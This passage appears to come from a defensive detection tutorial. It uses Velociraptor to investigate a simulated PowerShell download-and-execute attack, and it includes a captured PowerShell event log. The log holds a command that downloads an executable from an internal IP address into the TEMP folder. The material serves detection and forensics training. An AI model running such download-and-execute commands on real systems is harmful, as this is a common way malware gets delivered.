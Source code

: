From Velociraptor's perspective, you will also see this file, which we will explore later in this section.

<div align="center">
    <img alt="Velociraptor" src="/resources/attack-detect-scenarios/execution/suspicious-powershell-download-and-execute-pattern/images/velociraptor.png" width="100%">
</div>

So, for example, in this scenario the attacker only downloads and executes it and does not delete it (because that would only complicate the scenario — Velociraptor would be required to extract deleted files, which is possible but out of scope for this demo). We are also interested in what this file is, and we want to extract it to analyze using a sandbox. The problem is that the rule does not extract the exact file name; it only detects PowerShell scripts:

```
"CommandInvocation(Out-Default): ""Out-Default""


Context:
        Severity = Informational
        Host Name = ConsoleHost
        Host Version = 5.1.26100.6584
        Host ID = e8bc2ace-7bf7-403b-91dd-9274eb17cd5b
        Host Application = powershell -NoProfile -command (New-Object System.Net.WebClient).DownloadFile('http://100.65.0.6/WinPingDemo.exe', ""$env:TEMP\\WinPingDemo.exe"")
        Engine Version = 5.1.26100.6584
        Runspace ID = d2d80778-4c54-4961-ab3c-e592b592fc86
        Pipeline ID = 1
        Command Name = 
        Command Type = Script
        Script Name = 
        Command Path = 
        Sequence Number = 18
        User = WIN-USER-1\testuser
        Connected User = 
        Shell ID = Microsoft.PowerShell


User Data:"
```
